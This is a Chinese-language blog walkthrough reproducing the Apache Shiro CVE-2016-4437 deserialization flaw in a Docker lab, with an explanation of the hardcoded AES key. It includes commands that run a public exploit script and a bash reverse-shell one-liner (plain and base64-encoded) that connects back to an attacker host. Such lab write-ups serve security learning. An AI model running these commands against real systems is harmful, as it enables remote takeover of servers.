



# 漏洞复现-CVE-2016-4437-Shiro 反序列化 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/13485294.html`](https://www.cnblogs.com/cute-puli/p/13485294.html)

# 0x00 实验环境

攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker 搭建的 vulhub 靶场）（兼顾反弹 shell 的攻击机）

# 0x01 影响版本

Shiro <=1.2.24

# 0x02 入坑说明

（1）实验首先需要自行到 github 上下载 exp

> 地址：[`github.com/insightglacier/Shiro_exploit`](https://github.com/insightglacier/Shiro_exploit)

（2）运行环境为 python3 ，需要将 pip 更新：**python3 -m pip install --upgrade pip** 并下载一些调用的库：pycryptodome、Crypto、requests 等库

# 0x03 实验步骤

（1）打开有漏洞的网页，可以发现是一个登陆页面：

（2）我们首先抓包试试，可以发现这是一个可能存在 Shiro 反序列化的网站

（3）此时我们可以直接使用网上的 exp 进行攻击：

> **python3 shiro_exploit.py -t 3 -u http://肉鸡 IP:8080 -p "弹 shell 的一条命令"**

（4）弹 shell 的命令可以直接先构造好，然后在以下网站进行编码，这是因为 Linux 的命令行有的时候无法识别一些符号的命令：

> 网址：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)

> **bash -i >& /dev/tcp/你的攻击机 IP/2333 0>&1**

（5）攻击机监听，然后在本机 win10 上运行 payload：

> **python3 shiro_exploit.py -t 3 -u http://肉鸡网址:8080 -p "bash -c {echo,YmIXXXXXXXXXXXXXXJjE=}|{base64,-d}|{bash,-i}"**

 shell 反弹成功！

# 0x05 实验原理

> **参考原文：[`www.cnblogs.com/loong-hon/p/10619616.html`](https://www.cnblogs.com/loong-hon/p/10619616.html)**
> 
> Shiro 提供了记住我（**RememberMe**）的功能，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。
> 
> Shiro 对 rememberMe 的 cookie 做了加密处理，shiro 在`CookieRememberMeManaer`类中将 cookie 中 rememberMe 字段内容分别进行 **序列化**、**AES 加密**、**Base64 编码**操作。
> 
> 在识别身份的时候，需要对 Cookie 里的 rememberMe 字段解密。根据加密的顺序，不难知道解密的顺序为：
> 
> *   获取 rememberMe cookie
> *   base64 decode
> *   解密 AES
> *   反序列化
> 
> 但是，AES 加密的密钥 Key 被硬编码在代码里，意味着每个人通过源代码都能拿到 AES 加密的密钥。因此，攻击者构造一个恶意的对象，并且对其序列化，AES 加密，base64 编码后，作为 cookie 的 rememberMe 字段发送。Shiro 将 rememberMe 进行解密并且反序列化，最终造成反序列化漏洞。